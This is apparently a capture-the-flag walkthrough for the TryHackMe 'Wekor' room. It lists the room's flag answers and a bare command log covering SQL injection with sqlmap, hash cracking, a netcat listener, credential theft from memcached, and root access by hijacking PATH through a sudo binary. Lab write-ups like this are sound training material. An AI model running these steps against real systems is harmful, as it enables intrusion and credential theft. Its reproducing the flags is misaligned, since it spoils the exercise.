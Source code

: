 
# <div align="center">[Wekor](https://tryhackme.com/r/room/wekorra)</div>
<div align="center">CTF challenge involving Sqli , WordPress , vhost enumeration and recognizing internal services ;)</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7e5e0c2c-05fe-4829-9c54-41146e8b1ce9" height="200"></img>
</div>

# Task 1. Introduction
# Task 2. Finishing Up
Time To Submit The Flags :)
### What is the user flag?
```
1a26a6d51c0172400add0e297608dec6
```
### What is the root flag?
```
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```


## Here 
```
echo "<IP> wekor.thm" | sudo tee -a /etc/hosts
for i in `curl -s http://wekor.thm/robots.txt | grep Disallow | cut -d " " -f2`;do echo $i;curl -I http://wekor.thm$i;echo "---";done
curl -s http://wekor.thm/comingreallysoon/
sqlmap -r it_cart_coupon.xml --dump-all --threads=10
ll
tree wordpress
cat wp_users.csv
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
echo "<IP> site.wekor.thm" | sudo tee -a /etc/hosts
admin: Administrator
wp_eagle: Subscriber
wp_jeffrey: Subscriber
wp_yura: Administrator

nc -nlvp 4444
echo "stats items" | nc -vn -w 1 127.0.0.1 11211
echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
echo "get username" | nc -vn -w 1 127.0.0.1 11211
echo "get password" | nc -vn -w 1 127.0.0.1 11211
Orka:OrkAiSC00L24/7$
su Orka
Password: OrkAiSC00L24/7$
cat /home/Orka/user.txt
```
### Priv Esc
```
sudo -l
./bitcoin
echo $PATH
ls -la /usr/sbin/ | head
cat > /usr/sbin/python << EOF
#!/bin/bash
/bin/bash
EOF

chmod +x /usr/sbin/python
sudo /home/Orka/Desktop/bitcoin
20
cat /root/root.txt
```
